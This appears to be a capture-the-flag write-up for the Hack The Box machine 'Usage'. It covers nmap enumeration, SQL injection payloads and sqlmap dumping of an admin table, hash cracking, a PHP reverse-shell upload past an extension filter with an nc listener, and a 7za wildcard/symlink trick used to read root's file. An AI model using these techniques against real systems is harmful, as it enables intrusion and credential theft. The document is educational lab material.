 # Machine Usage from [Hack The Box](https://www.hackthebox.com/)

Target IP: 10.10.11.18
## Enumeration and reconnaissance

Using nmap we launch a SYN scan on every port (65535) looking for services and export the results to the file named `open_ports`
```
nmap -p- -sS -n -Pn -vvv --min-rate 3000 -oG open_ports 10.10.11.18
```
The target machine only has ports 22 (SSH) and 80 (HTTP) open.

## Gaining access to target machine

Before accessing the http service we should add the domain to `/etc/hosts` for the browser to know which IP should use because it's being redirecting to the domain 'usage.htb'
```
echo "10.10.11.18   usage.htb" >> /etc/hosts
```

The application in `http://10.10.11.18` is very simple, it has a button to recover the password that redirect us to `usage.htb/forget-password`. There we have a box to insert our email (I previously registered using test@test.com) and it's vulnerable to SQL Injections, as you can verify with simple payloads like
```
# Payloads to verify the SQLi vulnerability
test@test.com' OR 1=1-- -
' OR 1=1-- -
```
Eventhough the application is vulnerable to SQLi we don't have any kind of response from the server, which points us to Blind SQLi, an annoying kind of vulnerability to be honest.


### Exploting SQL Injections

To exploit the blind SQLi I'm gonna use `sqlmap` setting the `--level` to 5.
```
sqlmap -r db_request --dbms=mysql --level=5 --dbs --batch
```
`-dbs:` to list all the databases \
`-level <N>:` to decide how exhaustive the attack would be\
`-batch:` to avoid waiting for user input and use the default options instead

Once we discover some databases, we can use the following command to inspect the available tables
```
sqlmap -r db_request -D <database> --tables --batch
```
Once we have information about tables, we can use `--columns` to inspect the structure of the table itself.
```
sqlmap -r db_request -D <database> -T <table> --columns --batch
```
And finally using `--dump` we query the contents of the selected table from the selected database.

```
sqlmap -r db_request -D <database> -T <table> -C <column> --dump --batch
```

In the photo below we can see how sqlmap is able to identify and clasify the vulnerability and also what payload it's using
![sqlmap result + SQL blind injection](imgs/image.png)


Below we can see how we were able to dump contents of the desired table that we were able to know thanks to the blind sqli discovery conducted by sqlmap. (Kudos to the developers of such a wonderful tool!)

Database: *usage_blog*\
Table: *admin_users*

![admin password](imgs/image-1.png)

Since the password seems to be hashed, we use John the ripper to crack it (copy the hash to a file)
```
john admin_password_hash
# password: whatever1
```

### Logging as admin in the web application

Using the obtained password we are able to log in as admin to the web page. 

Veri easily we can spot that the file upload feature from the administrator panel is vulnerable. And to exploit we must intercept the upload request (using Burpsuite or another proxy) and use a file type that seems like an image, in my case I'm uploaded a file named `reverse-shell.php.png`. Then from the proxy we can remove the `.png` extension and the file would be uploaded succesfully.

Below is the content of that file

![reverse-shell](imgs/reverse-shell.png)

Of course before uploading the file -which is going to trigger the target machine to stablish a reverse shell to our host- we must start listening on the same port

```
nc -nlvp 443
```
## Obtaining user flag
Once we stablish a connection to the victim machine, we can see the current user is `dash`. 

We got our first flag
`cat /home/dash/user.txt`


NOTE: The reverse shell works fine, but for a limited period of time so I just opened another bash process and, from the victim machine, stablished another connection to my host to avoid it closing.

## Getting root flag

### Pivoting from user1 (dash) to user2 (xander)
The `dash` user doesn't have special access, so first we can proceed with a lateral movement into another user: `xander`. Which is really easy because inspecting the file `/home/dash/.monitrc` we found out what seems to be a password. So let's try it for `xander`

![alt text](imgs/image-2.png)

Now the user `xander` has sudo access to use the binary `/usr/bin/user_management`
```
sudo -l
#(ALL : ALL) NOPASSWD: /usr/bin/usage_management
```

After inspecting that binary with `strings` and playing a while running it we can confirm that option 1 of the executable (it has a menu with 3 options) performs a compresions of `/var/www/html`.

More splicity the command is
`/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *`

**Pay attention to the wildcard!**

So, we can run the `7za` tool with sudo and what is even more important is the command uses the `*` wildcard. Looking into `7za --help` we can see that there is a way of listing the contents of the files to compress: using `@file` will result on 'file' being compressed while it's contents gets printed. That's very useful!!

We could run something like `7za a test-folder @file-name` and that should send 'file-name' to the archive called 'test-folder' while **printing it's content**. So if we manage to make file-name --points to--> root.txt and run the command as sudo we would be able to read it's content.

Summarazing: 
- we can run `/usr/bin/user_management` as sudo
- using option 1 when running `/usr/bin/user_management` runs `/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *` from `/var/www/html`
- prepending "@" to file's name, when using `7za` print's it's content on stdout.

All in place, we just need a way to make that "*" somehow expands to "@root.txt" for the actual 7za command ends up being `/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- @root.txt [...]`
To do so we can create a file called '@root.txt' and another one called `root.txt` (we need the 2nd one so the content get's displayed) which would be a symlink pointing to the actual `/root/root.txt`

```
# from /var/www/html
# create the bait file
touch "@root.txt"
# symlink to the original root.txt
ln -s -r /root/root.txt root.txt
```

Once everything is in place, let's hack!
```
sudo /usr/bin/user_management
# input option 1 when prompted
# the content of root.txt should be display as plain text!
```


## Summary

We were able to compromise this machine because of the following vulnerabilities:

* Blind SQL Injection on an 'email' field which allows to enumerate the databases
* The password in the database wasn't hard to crack
* The admin panel was vulnerable to Remote File Inclusion which allows us to stablish a reverse-shell
* A password present in plaint text in file named `.monitrc` which allows us to pivot to another user
* Sudo permissions to execute a vulnerable script because it's using wildcards, which allows us to read the content of ANY file as sudo
